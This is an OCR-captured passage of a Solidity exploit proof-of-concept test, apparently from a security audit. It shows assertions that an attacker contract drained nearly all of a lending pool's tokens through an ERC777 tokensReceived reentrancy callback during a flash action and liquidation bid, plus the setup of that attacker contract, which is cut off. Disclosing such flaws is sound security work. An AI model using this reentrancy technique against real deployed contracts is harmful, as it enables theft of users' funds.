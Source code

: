             
            //----------       FINAL ASSERTIONS       ----------//
    
            // Action handler (who is the receiver of the borrowed funds in the flash action) has succesfully obtained 100 tokens from 
            //the pool, and in the end it has nearly 101 tokens (initially it had 1 token, plus the 100 tokens stolen 
            // from the pool minus the small amount required to pay for the bid)
            assertGt(mockERC20.token777.balanceOf(address(actionHandler)), 100 * 10 ** 18);
    
            // On the other hand, pool has lost nearly all of its balance, only remaining the small amount paid from the 
            // action handler in order to bid
            assertLt(mockERC20.token777.balanceOf(address(pool)), 0.05 * 10 ** 18);
        
        } 
    
        /// @notice Internal function to build the `actionData` payload needed to execute the `flashActionByCreditor()` 
        /// callback when requesting a flash action
        function _buildActionData() internal returns(bytes memory) {
            ActionData memory emptyActionData;
            address[] memory to;
            bytes[] memory data;
            bytes memory actionTargetData = abi.encode(emptyActionData, to, data);
            IPermit2.PermitBatchTransferFrom memory permit;
            bytes memory signature;
            return abi.encode(emptyActionData, emptyActionData, permit, signature, actionTargetData);
        }
    }
    
    /// @notice ERC777Recipient interface
    interface IERC777Recipient {
       
        function tokensReceived(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes calldata userData,
            bytes calldata operatorData
        ) external;
    }
    
     /// @notice Liquidator interface
    interface ILiquidator {
        function liquidateAccount(address account) external;
        function bid(address account, uint256[] memory askedAssetAmounts, bool endAuction_) external;
    }
    
     /// @notice actionHandler contract that will trigger the attack via ERC777's `tokensReceived()` callback
    contract ActionHandler is IERC777Recipient, IActionBase {
    
        ILiquidator public immutable liquidator;
        address public immutable account;
        uint256 triggered;
    